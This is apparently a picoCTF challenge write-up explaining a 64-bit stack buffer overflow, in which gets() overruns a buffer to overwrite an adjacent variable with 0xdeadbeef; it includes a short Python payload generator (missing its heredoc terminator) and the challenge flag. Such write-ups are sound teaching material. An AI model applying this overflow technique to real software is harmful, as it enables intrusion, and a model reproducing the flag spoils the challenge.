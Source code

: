 # Challenge Description
This is a small 64-bit picoCTF binary that reads an uncontrolled string with gets() into a local buffer called clutter, and then checks a nearby stack variable code against the constant 0xdeadbeef. The goal is to overflow clutter and overwrite code so the program prints the flag.

## Solution:

I suspected a classic stack overflow due to the use of gets() (no bounds checks). Instead of aiming for the return address, I inspected the binary to see if there were local variables near the buffer that could be overwritten. The source/disassembly showed code stored at rbp-0x8 and clutter earlier on the stack, so overwriting code directly is possible.

Make the binary executable and run it to observe behavior:
```
chmod +x chall
./chall
```
Use gdb (with gef/pwndbg) to inspect the stack and find offsets.
Generate a cyclic pattern to find the overflow offset.
Determine the offset to code (found to be 264 bytes in this writeup).
Craft the payload (264 'A's + little-endian 0xdeadbeef).
Payload construction (example):
```
python3 - <<'PY' > payload.bin
import sys
sys.stdout.buffer.write(b"A"*264 + b"\xef\xbe\xad\xde" + b"\x00"*4)
```

Test locally and then send to remote with nc.


## Flag:
```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:
Overwriting local variables vs return address.
Using cyclic patterns to find offsets.
Endianness when writing raw values.

## Notes:
Initially tried return-address overwrite but switched to overwriting code found nearby.
On local runs flag.txt was absent; remote server contains the real flag.
